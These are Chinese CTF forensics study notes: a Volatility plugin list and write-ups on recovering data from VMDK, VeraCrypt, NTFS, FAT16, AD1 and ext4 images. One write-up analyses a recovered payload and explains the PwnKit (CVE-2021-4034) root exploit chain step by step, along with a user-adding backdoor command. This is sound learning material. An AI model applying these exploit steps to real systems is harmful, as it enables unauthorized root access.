consoles 提取执行的命令行历史记录（扫描CONSOLE_INFORMATION信息）
crashinfo 提取崩溃转储信息
deskscan tagDESKTOP池扫描(Poolscaner)
devicetree 显示设备树信息
dlldump 从进程地址空间转储动态链接库
dlllist 打印每个进程加载的动态链接库列表
driverirp IRP hook驱动检测
drivermodule 关联驱动对象至内核模块
driverscan 驱动对象池扫描
dumpcerts 提取RAS私钥及SSL公钥
dumpfiles 提取内存中映射或缓存的文件
dumpregistry 转储内存中注册表信息至磁盘
editbox 查看Edit编辑控件信息
envars 显示进程的环境变量
eventhooks 打印Windows事件hook详细信息
evtlogs 提取Windows事件日志（仅支持XP/2003)
filescan 提取文件对象（file objects）池信息
gahti 转储用户句柄（handle）类型信息
gditimers 打印已安装的GDI计时器(timers)及回调(callbacks)
gdt 显示全局描述符表(Global Deor Table)
getservicesids 获取注册表中的服务名称并返回SID信息
getsids 打印每个进程的SID信息
handles 打印每个进程打开的句柄的列表
hashdump 转储内存中的Windows帐户密码哈希(LM/NTLM)
hibinfo 转储休眠文件信息
hivedump 打印注册表配置单元信息
hivelist 打印注册表配置单元列表
hivescan 注册表配置单元池扫描
hpakextract 从HPAK文件（Fast Dump格式）提取物理内存数据
hpakinfo 查看HPAK文件属性及相关信息
idt 显示中断描述符表(Interrupt Deor Table)
iehistory 重建IE缓存及访问历史记录
imagecopy 将物理地址空间导出原生DD镜像文件
imageinfo 查看/识别镜像信息
impscan 扫描对导入函数的调用
joblinks 打印进程任务链接信息
kdbgscan 搜索和转储潜在KDBG值
kpcrscan 搜索和转储潜在KPCR值
ldrmodules 检测未链接的动态链接DLL
lsadump 从注册表中提取LSA密钥信息（已解密）
machoinfo 转储Mach-O 文件格式信息
malfind 查找隐藏的和插入的代码
mbrparser 扫描并解析潜在的主引导记录(MBR)
memdump 转储进程的可寻址内存
memmap 打印内存映射
messagehooks 桌面和窗口消息钩子的线程列表
mftparser 扫描并解析潜在的MFT条目
moddump 转储内核驱动程序到可执行文件的示例
modscan 内核模块池扫描
modules 打印加载模块的列表
multiscan 批量扫描各种对象
mutantscan 对互斥对象池扫描
notepad 查看记事本当前显示的文本
objtypescan 扫描窗口对象类型对象
patcher 基于页面扫描的补丁程序内存
poolpeek 可配置的池扫描器插件
printkey 打印注册表项及其子项和值
privs 显示进程权限
procdump 进程转储到一个可执行文件示例
pslist 按照EPROCESS列表打印所有正在运行的进程
psscan 进程对象池扫描
pstree 以树型方式打印进程列表
psxview 查找带有隐藏进程的所有进程列表
qemuinfo 转储 Qemu 信息
raw2dmp 将物理内存原生数据转换为windbg崩溃转储格式
screenshot 基于GDI Windows的虚拟屏幕截图保存
servicediff Windows服务列表(ala Plugx)
sessions MM_SESSION_SPACE的详细信息列表(用户登录会话)
shellbags 打印Shellbags信息
shimcache 解析应用程序兼容性Shim缓存注册表项
shutdowntime 从内存中的注册表信息获取机器关机时间
sockets 打印已打开套接字列表
sockscan TCP套接字对象池扫描
ssdt 显示SSDT条目
strings 物理到虚拟地址的偏移匹配(需要一些时间，带详细信息)
svcscan Windows服务列表扫描
symlinkscan 符号链接对象池扫描
thrdscan 线程对象池扫描
threads 调查_ETHREAD 和_KTHREADs
timeliner 创建内存中的各种痕迹信息的时间线
timers 打印内核计时器及关联模块的DPC
truecryptmaster Recover 恢复TrueCrypt 7.1a主密钥
truecryptpassphrase 查找并提取TrueCrypt密码
truecryptsummary TrueCrypt摘要信息
unloadedmodules 打印卸载的模块信息列表
userassist 打印注册表中UserAssist相关信息
userhandles 转储用户句柄表
vaddump 转储VAD数据为文件
vadinfo 转储VAD信息
vadtree 以树形方式显示VAD树信息
vadwalk 显示遍历VAD树
vboxinfo 转储Virtualbox信息（虚拟机）
verinfo 打印PE镜像中的版本信息
vmwareinfo 转储VMware VMSS/VMSN 信息
volshell 内存镜像中的shell
windows 打印桌面窗口(详细信息)
wintree Z顺序打印桌面窗口树
wndscan 池扫描窗口站
yarascan 以Yara签名扫描进程或内核内存
Vol3使用记录
- 曾有佬说过，“使用Vol3会让人不幸”，于是浅尝辄止了
- 类似的拿到内存取证文件首先要识别镜像并解析链路：Vol3可以使用windows.info参数，这意味着前置认为内存文件来源于windows系统并让Vol3尝试用这个格式
- 解析（如果不是Windows系统会直接报错的）
1 | vol3 -f ./Challenge.raw windows.info |

而如果当成Linux系统解析文件的话，会直接报错无法成功识别：

磁盘镜像取证
电子取证踩坑日记（道心破碎） - tomatoo - 博客园
Magnet AXIOM使用+2024獬豸杯实战 - yanke_wolf - 博客园
未知镜像（VScode）
题目来源：CSAWCTF-2011【使用 wget -O core.burritos "https://shell-storm.org/repo/CTF/CSAW-2011/Networking/EvilBurritos2%20-%20300%20Points/core.burritos" 进行下载】
题目要求寻找邮件地址

- 刚开始拿到的是一个不知名后缀的文件【实际上看到了
7f 45 4c 46的magic头知道是一个ELF文件】
core dump 的目的就是把进程当时的“现场”尽可能完整地保存下来，方便调试/复现崩溃；而进程的现场里本来就有大量可读字符串和数据结构，于是用
strings看就会有很多明文
- 因此可以直接记事本的打开，关键字搜索找到可疑邮件地址

1 | strings -a core.burritos | less |
- 补充一下ET_CORE文件的相关知识
ELF Core Dump（ET_CORE）：也就是某个进程（这里显示是
mutt）崩溃/被强制生成时，系统把进程的部分内存映射、寄存器、线程信息等写成一个 ELF 格式的“转储文件”。这类文件常见名字就叫core
readelf是 GNU binutils 里专门用来读取 ELF 文件结构的工具（可执行文件、.so、.o、.a 里的 ELF、以及 core dump）。
| 参数 | 等价长选项 | 看什么 | 典型用途 |
|---|---|---|---|
-H |
--help |
帮助 | 现场查完整参数 |
-a |
`–all | 多数信息一起输出 | 快速总览一个 ELF |
-h |
--file-header |
ELF Header | 位数/端序/类型(ET_EXEC/ET_DYN/ET_CORE)/入口点/PHDR 数量等 |
-l |
--program-headers |
Program Headers（段，PT_*） | 看装载布局、映射区间、core dump 的内存段 |
-S |
--section-headers |
Section Headers（节，.text/.data/.dynamic…） | 看节表、节偏移/大小（core 通常没有节表） |
-s |
--syms |
符号表（.symtab） | 逆向时看函数/全局符号（未 strip 才丰富） |
-D |
--use-dynamic |
动态符号表（.dynsym） | strip 过也常能看到的导入/导出符号 |
-r |
--relocs |
重定位（REL/RELA） | 分析 GOT/PLT、PIE、静态重定位信息 |
-d |
--dynamic |
.dynamic 动态段 | 看 NEEDED 依赖库、RPATH/RUNPATH、SONAME 等 |
-V |
--version-info |
版本段（.gnu.version*） | 看符号版本依赖（glibc 版本相关） |
-n |
--notes |
NOTE 段 | core dump 里最关键：进程信息/寄存器/auxv 等 |
-x <sec> |
--hex-dump=<sec> |
以十六进制 dump 某节 | 直接看节内容（用节名或序号） |
-p <sec> |
--string-dump=<sec> |
以字符串形式 dump 某节 | 看 .rodata/.dynstr/.strtab 等 |
-w[...] |
--debug-dump[=...] |
DWARF 调试信息 | 看 line/info/frames/loc/ranges/macro 等（需要带符号/调试段） |
-W |
--wide |
宽输出 | 表格不截断（尤其 -l -S -s 很有用） |
--demangle |
C++ 符号反修饰 | 看可读的函数名（配合 -s/-D） |
|
-A |
--arch-specific |
架构特定信息 | 某些架构额外段/标志 |
VMDK_NTFS（DiskGenius）
题目特点：vmdk文件可以用DiskGenius进行挂载；VeraCrypt挂载的是需要密码的文件（直接看全是乱码）
题目来源：Bugku-ColorfulDisk
参考：0xGame 2022 Misc WP – 之寒的小站
0xGame2022 Week1~4 Misc Offical Writeup & 全附件 - zysgmzb - 博客园
- VMDK（Virtual Machine Disk）就是 VMware 系列虚拟化产品常见的虚拟磁盘文件格式，本质上是这台虚拟机的硬盘。
- 补充一点（虽然这里没用到）：vmdk文件有时候可以通过7-zip打开；
VMDK 本质上是虚拟磁盘镜像容器，里面按一定格式存放了很多数据块（有的还是压缩/分块的）。而 7-Zip（7z）不仅是压缩软件，它其实是一个通用归档/容器解析器：能识别很多不是压缩包但长得像容器的格式，并把里面的内容列出来。

- VMDK 是虚拟硬盘的容器，里面装的通常是一个完整磁盘（可能含分区表 + 多个分区）。而很多 Windows 系统的分区本身就是 NTFS。7-Zip 能看懂一部分 VMDK 的结构后，会把里面的分区当成可提取的对象展示出来，于是会看到几个类似NTFS或NTFS 文件/分区镜像的条目。
- 使用工具 DiskGenius 打开虚拟磁盘拿到解压密码：磁盘 → 打开虚拟磁盘文件

- 可以看到一个password的txt文件，以及加密压缩包（未知密码）和无后缀文件
【博客说题目这里有提示，是要用那个密码挂载加密容器文件1】
-
使用VeraCrypt进行挂载（默认无法截图，在设置→性能→安全选项→禁用屏幕截图与屏幕保护修改）
-
Select File…选中这个文件1 -
选一个空的盘符（未占用）
-
点击挂载按钮（Mount）
-
输入
password.txt里给的密码 -

-
-
然后就能在此电脑这里看到一个多出来的盘符了；里面有一张图片1.png


- 这里题目说是RGB，所以查看Stegsolve；能看出来三个颜色的所有都有隐藏。提取发现wave文件头

- PS：也可以代码提取
1 | from PIL import Image, ImageDraw |
- 然后用一个Github-SSTV解码项目进行解码显然的SSTV的wav文件
1 | sstv -d .\flag -o flag.png |

- 得到flag.zip压缩包的密码：ty#48u*k。解压后即可获得flag
1 | 0xGame{RGB_Co1or_Pix3l} |
VMDK_FAT32（VeraCrypt）
题目特征：file xxx → data
学到了：发现无法挂载的vmdk文件，且里面包含的是一个加密的文件系统；那么可以尝试搜索字符串找信息 + VeraCrypt容器文件可以通过输入不同密码获得不同挂载内容 + WinHex打开磁盘 + 坏文件尝试用strings！！！
题目来源：RCTF2019-disk
参考博客： RCTF2019]disk - 水星sur - 博客园
RCTF2019]disk（BUUCTF） - 《CTF 刷题总结》 - 极客文档

- 这里题目描述中明确说明了使用VeraCrypt进行解密挂载，但是下载附件发现是一个vmdk后缀文件；而且使用file查看格式的时候发现
这是个货真价实的vmdk文件（雾）。正常的VeraCrypt加密后的文件几乎就是乱码，无法识别成任何格式的文件（data），所以显然这个vmdk文件不是直接用于挂载的。
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
- 起初尝试先用DiskGenius挂载一下看看里面有什么，但是显示

1 | # qemu也显示文件格式有问题，很可能是一个修改后的vmdk文件；不希望我们直接挂载 |
- 这里用到的就是上个题提到的知识点：vmdk文件是一个容器，里面按照一定格式存储了很多数据块，可以共给7zip解析【7zip的解析相对于GD挂载的解析更加宽松，就算文件有小问题也能进行】。因此直接用7zip解压缩出来其中的0.fat文件（会报错说里面的不是fat格式文件：这是因为为这个就是VC加密后的文件，已经辨别不出原来的文件格式了）
FAT 是一种以文件分配表维护簇链、目录项记录文件名/起始簇/大小与基础时间戳的简易文件系统，取证中结构直观便于做删除恢复但元数据较少且无日志导致时间线证据有限。它常见于 U 盘/SD 卡等可移动介质，以及 EFI 系统分区等启动与固件场景。

- 如果本身是没加密的FAT文件系统直接做成镜像的话，解压vmdk文件出来的fat文件使用file会识别出来是fat文件而不是data
- 因此这里推断制作vmdk文件的流程是：
- 先用 VeraCrypt 把某个分区/整盘做加密卷（或创建一个加密容器文件），再把它放到虚拟机里当数据盘使用。
- 最终虚拟机磁盘导出/打包时就是 VMDK，而磁盘里某个分区/某段区域其实是 VeraCrypt 卷的随机数据。【也有可能是直接把VeraCrypt容器文件直接放到虚拟磁盘中然后打包】
直接挂载VeraCrypt解密磁盘；且慢，这里涉及一个有趣的想法：正常来说没加密的文件系统扫描出来很多明文在里面可能是VMDK descriptor/文件系统本来就有的文本文件，但是这个里面是一个加密后的FAT文件系统，所以理论上是不会有大量的明文的；即便有也应该只是VMDK文件的描述。事实是strings查找字符串的时候发现这里正藏着第一段的flagrctf{unseCure_quick_form4t_vo1ume

【这是不是验证了之前这个vmdk文件被魔改过的猜想！！！也就是说以后发现无法挂载的vmdk文件，且里面包含的是一个加密的文件系统；那么可以尝试搜索字符串找信息】
- 然后用密码
rctf到VeraCrypt上解密挂载，发现了一张图片以及有提供了一个密码

-
这里还以为图片是用一个带密码的工具进行的隐写，但是实际上这是一个新知识点：不同的密码尽然能开启不同的盘（VeraCrypt的隐藏卷功能）《知识得到升华》
-
输入第二个密码成功挂载，但是无法直接打开

- 这里使用管理员身份运行的WinHex打开这个磁盘（没想到还能这样），会显示参数错误但是无所谓；里面又是被藏入了大量第二段字符串
_and_corrupted_1nner_v0lume}：感觉就是这样被魔改坏的【也是学会了坏文件就用strings提取字符串了……它能是怎么坏的？】

1 | flag{unseCure_quick_form4t_vo1ume_and_corrupted_1nner_v0lume} |
USB image(slack space)
分区表描述的是整块物理磁盘如何切成多个分区；每个分区内部再各自使用自己的文件系统。
所以，整盘镜像通常需要分区表来定位分区；而单独导出的分区镜像，因为本身就是一个完整文件系统，所以即使没有分区表也能直接挂载。
【省流：FTK神力，但是小工具】
题目来源：INSHack2019 You_Shall_Not_Pass
参考博客：ctf-writeups/INShAck-2019/YouShallNotPass/Readme.md at master · mzfr/ctf-writeups
INS’hAck 2019 - You Shall Not Pass | FireShell Security Team
1 | One of my friends is a show-off and I don't like that. |
- 拿到名为
dd.img的文件，是一个NTFS文件系统的磁盘镜像
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
OEM-ID "NTFS "：这是 NTFS 卷
sectors/cluster 8：每簇 8 个扇区
Media descriptor 0xf8：传统磁盘介质标记，常见值
BootSector (0x80)：可引导标志/传统字段，别太纠结
NTFS, sectors 131071：这个 NTFS 卷总共有 131071 个扇区
$MFT start cluster 4：主文件表从第 4 个簇开始
$MFTMirror start cluster 8191：MFT 镜像位置
bytes/RecordSegment ...：MFT 记录大小 1024 字节
serial number ...：NTFS 卷序列号
→→→ dd.img 很可能是 单个 NTFS 分区的镜像，而不是 整盘镜像 + 分区表 + 多个分区 ：因为如果它是整盘镜像，最前面通常应该先是磁盘 MBR 分区表；但这里一上来就直接看到了 NTFS 文件系统的引导信息和 MFT 信息【file一般是从前往后查看，输出不是在很后面发现了 NTFS，而是直接第一条识别结果就给出了，正常完整带有分区表的（一整个物理磁盘）应该是像这里这样子最后面显示】，说明这个镜像的起点很可能就是 NTFS 分区起始扇区。
- 这里发现博客思路是首先尝试用
TestDisk来恢复一下，虽然这个题目不一定要这么做；但是也记录一下
1 | testdisk dd.img |
（1）选择镜像开头用的分区表格式 → 前面看到这个镜像不是整盘镜像，没有分区表；因此选择 None（默认识别的也是这个）
选项 含义 常见场景 Intel传统 MBR 分区表（Intel/PC partition） 老式 BIOS 磁盘、老 Windows、很多传统 U 盘/小硬盘镜像 EFI GPT现代 GPT 分区表 现代 Windows、UEFI 启动磁盘、大容量硬盘、新一些的 Linux 安装 None无分区表，直接就是文件系统/卷本体 单个分区镜像、卷镜像，比如一上来就是 NTFS/FAT/ext 文件系统引导扇区 MacApple Partition Map (APM)，老式苹果分区表 老 Mac 设备、早期苹果磁盘 SunSun Solaris 分区表 Solaris / SPARC 相关系统 XBoxXbox 分区结构 Xbox 主机磁盘 HumaxHumax 设备专用分区表 机顶盒、录像设备等特定 Humax 设备
（2）选择对镜像的处理
【这里我直接 List 就成功看到所有的文件了（相当于一个命令行的挂载，实则直接DiskGenius打开虚拟磁盘文件都可以实现挂载的），没有遇到博客所说的错误】
-
使用
c复制出来所有文件（评价是不如DG挂载）直接发现/d4997e4eb81ca133/7948954c771171c2是一个.mp4文件，然后其他的一堆都是json文件（当然这些都没有什么卵用） -
当然这里看到博客提到使用
TestDisk也带有的工具photorec直接雕刻出文件；于是也尝试了一下：1
photorec dd.img
- 进入界面依旧选择
- Options里面是这样的几个参数
选项 含义 作用 什么时候改 Paranoid严格校验恢复结果 默认会验证恢复出的文件，无效文件会被丢弃。 一般保持 YesBruteforceJPEG 碎片暴力恢复 用来恢复碎片化更严重的 JPEG，但非常吃 CPU。它和 Paranoid显示在一行，是因为Paranoid开启时这里会顺带显示 bruteforce 状态。只有重点找碎片 JPEG 时才考虑开 Keep corrupted files保留损坏文件 即使文件无效，也照样保存出来，方便你后续用别的工具继续抢救。 恢复结果太少，或你想连残片都保留时可开 Expert mode专家模式 允许你手动指定文件系统块大小和偏移。官方说明里提到，NTFS/exFAT/ext2/3/4 的偏移通常是 0；当整盘结构丢失、分区被重格式化、默认恢复结果很差时，才建议试手动调这些值。 正常情况别开 Low memory低内存模式 当系统内存不足、恢复时崩溃，或者面对大且严重碎片化的文件系统时才可能需要；官方明确建议非必要不要启用。 小镜像不用开 Allow partial last cylinder允许不完整末柱面 这个选项会影响磁盘几何参数的判定，官方说明里说它只会影响无分区表介质。 一般保持默认 File Opt里面是这样的（其实吗，默认全选就挺好）：
-
另外了解到一个工具Sleuth Kit（工具套装）可以把已经删除的未覆盖的文件恢复出来（当然TestDisk也可以）
1 | fls -r dd.img # 列出已分配文件/已删除文件/目录项/有时连孤儿文件(ls plus)【输出带有*的就是已删除的文件】 |
fls 会列出目录项；在它的默认输出里，文件类型后面那串数字就是 metadata address。官方示例里像 r/r 1304-128-1: IO.SYS，其中 1304-128-1 就是元数据地址；如果不是 NTFS，很多文件系统这里只有一个数字。
- 发觉到挂载提取出的所有文件都不重要的时候，就需要考虑恢复已经删除的数据 / slack space等非常规文件了《
testdiskandphotorecfailed to find something》；这里用FTK挂载会发现分配给 mp4 文件的簇并没有全部占满，剩下的区域隐写有内容
slack space就是文件“实际内容结束”到“它最后一个已分配簇结束”之间的那段空隙。FTK 会自动把有分析价值的 file slack 项单独展示出来
1 | istat -f ntfs dd.img 71-128-2 |
- 从 FTK 提取的
7948954c771171c2.FileSlack文件【当然也可以icat -s全提取然后手工切割分离】中发现base64编码字符串
也是经典的 Windows存储的 UTF-16LE 字符串
1 | strings -a -e l 7948954c771171c2.FileSlack | sed 's/-BGZ-//g;s/-EGZ-//g' |
1 | H4sIAOq1yVwAA6tWUFBKyc8vUrJSMDIAAh0gvzi1sDQ1LzkVKBatAATVSgX5RSVAnqGBgSFQhVJB |
GPT说：（结合下面的做题过程，确实是gzip）
-BGZ-很像某种 Begin GZip 标记
-EGZ-很像某种 End GZip 标记
- 解码获得
gz压缩包，解压获得JSON字符串（当然也可以直接CyberChef然后Gunzip解码）
1 | { "door": 20000, "sequence": [ {"port": 10010, "proto": "UDP"}, {"port": 10090, "proto": "UDP"}, {"port": 10020, "proto": "TCP"}, {"port": 10010, "proto": "UDP"}, {"port": 10060, "proto": "TCP"}, {"port": 10080, "proto": "UDP"}, {"port": 10010, "proto": "UDP"}, {"port": 10000, "proto": "TCP"}, {"port": 10000, "proto": "UDP"}, {"port": 10040, "proto": "TCP"}, {"port": 10020, "proto": "UDP"} ], "open_sesame": "GIMME THE FLAG PLZ...", "seq_interval": 10, "door_interval": 5} |
- 这里需要反应过来：**目标服务用了 Port Knocking（敲门序列）机制。**也就是：不能直接连真正的服务端口，必须先按特定顺序向一串端口发包，然后才能向服务端发送字符串“GIMME THE FLAG PLZ…”获得flag。《The whole thing is we have to go to each port, just make connection and then for 5 sec the door port i.e 20000 opens, we have to connect to it and send the
GIMME THE FLAG PLZ...strings and we’ll get the flag.》
1 |
|
保存上面代码为 exp.sh 给权限运行即可（当然比赛结束了，域名已经关了；连接会失败）
写法 含义 在这类 Port Knocking 命令里的作用 sudo以高权限运行命令；像 -sS这类原始报文扫描通常需要相应权限。保证 SYN/UDP 这类探测能按预期发出去 nmapNmap 本体，用来做网络发现和端口/服务探测。 这里更像“发特定探测包的工具”，不只是普通扫描器 -Pn跳过主机发现，把目标当成在线主机直接扫描。 避免前置探活影响敲门流程，直接发敲门包 -sUUDP Scan。 表示这一敲用 UDP 发包 -sSTCP SYN Scan。 表示这一敲用 TCP SYN 发包 -p 10010只扫描/探测指定端口； -p用来限定端口范围。表示这一步只对 10010发探测，不扫别的端口--max-retries 0把端口探测的最大重传次数限制为 0。 只发一次，不重试，避免多余报文打乱敲门顺序 --host-timeout 201给单个目标主机设置最长扫描时间，超时就放弃。（不写单位默认秒，可以加上ms） 让每一步尽快结束，不要在单次探测上拖太久 you-shall-not-pass.ctf.insecurity-insa.fr目标主机名；Nmap 支持直接把主机名作为目标，解析到 IP 后再扫描。 敲门和最终连接都发给这个主机
1 | INSA{213dca08e606ef9e5352f4bdd8b6dd9d6c559e9ce76b674ae3739a34c5c3be37} |
FAT16文件恢复（WinHex）
题目来源：HackINI2023-picoCTF
1 | The it team are pretty sure that the headmaster got hacked again when they found a stranged device attached to his PC. |
- 查看文件类型，虽然叫做dump但是就是一个磁盘镜像文件；而且是FAT16的
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
DOS/MBR boot sector：说明这个dump文件的开头就是一个**启动扇区/卷引导记录（VBR）**那种结构（也可能前面是 MBR/引导扇区风格的描述；file有时会把 FAT 的 VBR 也描述成 DOS/MBR boot sector）
OEM-ID "mkfs.fat"：常见于用 Linux 的mkfs.fat格式化出来的 FAT 卷（OEM 字段里写了 mkfs.fat）
label: "PICODUCK "：卷标
FAT (16 bit)：明确指出是 FAT16
【大概率是用 Linux 的 mkfs.fat 之类工具格式化出来的（因为 OEM-ID 写着 "mkfs.fat"）】
- 既然是Linux上面dump下来的文件镜像，要么是用WinHex的文件转磁盘功能；要么是直接用
mount直接挂载。后面Ext4这里也用到了
1 | # Linux挂载就大约这样；具体的看后面 |
【这里主要展示一下WinHex把文件转化为磁盘的功能 专业工具 → 将镜像文件转换为磁盘】
- 发现payload.dd文件；右键恢复出来即可（里面是两段base64内容：前一段分析CVE，后一段是用户密码）
【第一段挺长的，不粘了；反正是base64解码出来一段C语言代码。直接丢给GPT分析的】
CVE-2021-4034（PwnKit）典型特征
execve("/usr/bin/pkexec", (char*[]){NULL}, envp);
直接调用pkexec，而且 argv 故意传 NULL（这是该漏洞触发条件之一：pkexec对参数处理有缺陷）。环境变量里构造了：
"PATH=GCONV_PATH=."
"CHARSET=HEHE"
"SHELL=hehe"这就是利用点：让
pkexec走到需要字符集转换（gconv）的路径，然后去当前目录.里找你伪造的转换模块。前面一堆
system()在做落地准备：
建目录
GCONV_PATH=.、hehe/写
gconv-modules（告诉系统有哪些转换模块）写一个
hehe/hehe.c（上面那一长串字符串就是另一个 C 文件的内容）编译成共享库：
gcc ... -o hehe/hehe.so -shared -fPIC这一步是在做恶意 gconv 模块，当
pkexec触发 gconv 加载时执行你的gconv_init()。字符串里还有
setuid(0); setgid(0); ... /bin/sh
这就是提权后的动作：把自己变成 root，再弹 shell。
【第二段相对较少了；主要是使用了一个反向的xxd解码出bash指令】
xxd反向参数：
-p：plain 模式——输入/输出是纯 hex，没有地址、没有 ASCII 旁栏
-r：reverse——反向操作（把 hex 变回二进制），相当于解码
1 | # 第二段是添加用户以及对应的密码 |
因此最后的flag为：
1 | shellmates{CVE-2021-4034:systemdd:YUIONHBY} |
AD1加密镜像（FTK Imager）
题目特点：即使是加密需要密码进行挂载的，文件头也会有可打印字符串，不像VeraCrypt全是乱码
题目来源：Bugku-群友们的唠嗑
参考博客：BugkuCTF 部分题解(一)_bugkuctf wp-CSDN博客
bugku-misc-群友们的唠嗑_根据提示找到hexahue,将txt中的rgb颜色矩阵转为图形,再-CSDN博客
- 刚开始拿到一个flag.001未知文件与 ‘mi MA.txt’ ；打开文本文档发现提示 hint:hex @ hue
- → 这里介绍一个新的替换密码形式：Hexahue 密码
Hexahue Alphabet（Hexahue 密码）本质上是个颜色→符号的编码表：用一小块固定布局的彩色方格，来表示一个字母/数字/符号；是 替换密码（substitution cipher） 的一种视觉化写法。
最常见的造型是一个 2×3 的小方块（6 格，所以叫 hexa），每一格从一组固定颜色里取一个颜色。
一个字母= 一个 2×3 彩色块。很多个块排成一行/一页，就像一段“彩色文字”。
- 这里txt的内容正好是RGB描述的 2×3 彩色块
1 | mounting password： |
- 解密获得密码
123（这里脚本放在了D:\MiscTools\Decoder\Hexahue）onlineDecode
- 再去看那个flag.001文件，首先要确定需要用那个软件挂载；查看文件头部，是AccessData/FTK 系列的AD 加密（AD Encryption / ADEncrypt）包装头，也就是**被密码加密的 AD1（或被 AD 加密包装的证据镜像分卷）**的首卷特征【而且这个.001的后缀就很有说法】
- FTK Imager可挂载的文件头有
| 格式（可挂载） | 常见扩展名（可能分段） | magic 头 / 文件特征（偏移） | 备注 |
|---|---|---|---|
| RAW / dd（“裸”扇区镜像） | .dd .img .001（也常见） | 没有统一容器 magic；通常靠镜像内部的分区表/文件系统签名来识别（如 MBR、GPT、NTFS 等） | 因为它本质是从 0 扇区开始的原始拷贝，所以外层不自带文件头；FTK 主要是按磁盘内容结构去解析。 |
| EWF v1（EnCase E01 bitstream） | .E01 .E02 … | Hex：45 56 46 09 0D 0A FF 00；ASCII：EVF（偏移 0） | 这是你最常见的“E01 证据文件”家族头。 |
| EWF v1（ASR SMART / S01） | .S01 .S02 … | Hex：45 56 46 09 0D 0A FF 00；ASCII：EVF（偏移 0） | SMART 的 S01 跟 E01 同属 EWF 家族，magic 相同。 |
| L01（EnCase Logical） | .L01 .L02 … | Hex：4C 56 46 09 0D 0A FF 00；ASCII：LVF（偏移 0） | L01 是逻辑证据文件（文件/目录级），不是整盘扇区镜像。 |
| AFF（Advanced Forensic Format） | .AFF（也可能有变体/分段形态） | Hex：41 46 46；ASCII：AFF（偏移 0） | AFF 是一种开放的取证封装格式。 |
| AD1（AccessData 自定义内容/逻辑容器，未加密） | .ad1（也可能被分段成 .001/.002…） | 偏移 0x0：ASCII ADSEGMENTEDFILE（15 字节）；偏移 0x200：ASCII ADLOGICALIMAGE（14 字节） | AD1 的容器级签名，就看这两处最典型。 |
| AD1（AccessData AD Encryption 加密） | .ad1 或 .001… | 偏移 0x0：ASCII ADCRYPT（后面跟版本/参数等） | ADCRYPT 开头就是这一类；挂载/打开时通常需要密码/证书等凭据 |
-g 1 分组（group）大小为 1 字节
-l 64 只输出 64 字节
-
所以这个文件应该是AD1文件的加密格式（最后一栏），而且正好通过之前的txt文件获得了密码；直接打开【FTK支持在FTK内部直接打开（添加树），也支持挂载为此电脑上的一个磁盘（File → Image Mounting）】
-
菜单 File → Add Evidence Item…
-
选择 Image File → Next
-
浏览选择镜像首卷：一般选
flag.001（如果是 E01/L01 也是选第一段）。重要：如果它是分卷（有flag.002/flag.003…），这些分卷必须和flag.001在同一目录，名字也要连续匹配。 -
Next / Finish
-
-
挂载后一路找flag字样，找到encode.rar压缩包，里面有一张图片；但是加密了
- 去password路径里找但是啥都没有，反而是系统回收站里面有很多文件【一般回收站/垃圾桶里都有好货】
$RECYCLE.BIN- Windows系统的回收站文件夹（隐藏系统文件夹）
【估计是先把密码放到password里，然后删掉这样】
- 发现上面的“I3PC85G.gif”有“G:\password\only-a-gif.gif”的字样，推测此文件应该是从password路径删除的，同时文件名也可能在暗示：另一个文件“R3PC85G.gif”不只是gif，应该是隐写了东西的
- 发现这个GIF格外的长：好多帧的GIF考虑帧时间间隔隐写，使用identify打印时间间隔
1 | identify -format "%T " '$R3PC85G.gif' # $是变量展开起始符，不用引号包裹就用反斜杠转义\$ |
identify是ImageMagick 的工具，用来读取图片/动画文件并输出信息；对 GIF 这种多帧动画，它可以逐帧读取
-format "..."（参数）按照指定模板输出
%T是一个占位符，表示：当前帧的 delay（帧延迟时间）
- 下一步脑洞比较大了，需要敏锐察觉到大部分是两种数字（5和4）→可以对应成（1和0）；然后后面的少数的几个3当成噪声忽略掉就行【这里4和5的总数为95，得到的长度就很不对劲，不是8的整数倍也不是7的整数倍，那就不能直接转字符；也不符合开根号画二维码的要求：脑洞大开前面补一个0】
1 | s="5 5 5 4 4 4 4 4 5 5 4 4 4 4 5 4 5 5 5 4 4 5 5 4 5 5 5 4 4 5 5 4 5 5 4 5 4 4 5 4 5 5 5 4 4 5 5 4 5 4 5 4 5 5 5 4 5 4 5 4 5 4 4 4 5 4 4 4 4 4 4 4 5 5 4 4 5 5 5 4 5 5 4 5 4 4 5 4 5 4 4 4 5 5 4".split() |
- 获得压缩包encode.rar的解压密码
passisWT@giF；实际密码为WT@giF。解压获得一个扭曲的图像
- 依稀能看出有字迹被倾斜了，作者大大的wp里解说，右上左下倾斜是图片的宽过大了（原图的像素被放置到了错误的宽度上），尝试改小图片的宽后重新画图，直到字迹正常显示即可
把一维的数据流（比如一串 0/1、或像素值序列）强行按某个宽度 w折行，画成二维图片。
如果选的 w 不对，本来应该在同一行的像素被拆到下一行，结果图像就会出现斜着跑的字迹。在做
index -> (x, y)映射：
x = i % w, y = i // w
w 错了，所有点的(x,y)就错，直线会变斜线、文字会被扭成斜的。
1 | # 这里查看图片大小本来宽是732像素，显然是设置大了，尝试缩小像素 |
-
获得flag
1 | flag{希望大家不要不识抬举} |
PS：这里补充一下上面使用挂载的话如何取消挂载。【就在确认挂载的那个界面】
Ext4（WinHex）
题目来源：IrisCTF2024-InvestigatorAlligato
参考博客：HelloCTF-ext4WinHex
writeup/IrisCTF_2024/Forensics/Investigator_Alligator
2
3
4
幸运的是，系统管理员足够聪明，在整个过程结束时捕获了网络流量并获取了内存样本
受害用户在损失已经造成后，也在慌乱之中输入了一些内容。我们有该事件发生后的磁盘图像
您能恢复他们的文件并找出受害者输入的内容吗？
一、磁盘取证，恢复文件
file看一下无后缀的文件，确定文件类型与挂载工具；是ext4文件：ext4（Fourth Extended Filesystem）是 Linux 中最常见、最日常可靠的文件系统之一
1 | ┌──(npusec㉿AnRan)-[/mnt/e/Forensics] |
- 拖入 WinHex 中将镜像文件转换为磁盘
- 在 home 目录下找到加密的 img 以及一个 Python 文件【一般Linux文件系统优先找home路径】
- 右键这两个文件恢复出来
- Python 文件代码如下
1 | #!/usr/bin/env python3 |
- 这段脚本本质上是在做一个伪随机流密码 XOR 加密，但它的密钥流不是来自安全随机数，而是来自 Python 的
random（Mersenne Twister），而且 seed 还是从远程服务器 149.28.14.135:9281 拿的：因此需要寻找捕获的流量包，分析查找远程拿到的seed是什么。 - 这里在
/root/capture路径下发现network流量包【需要知道如果有记录的流量包，就去/root找】
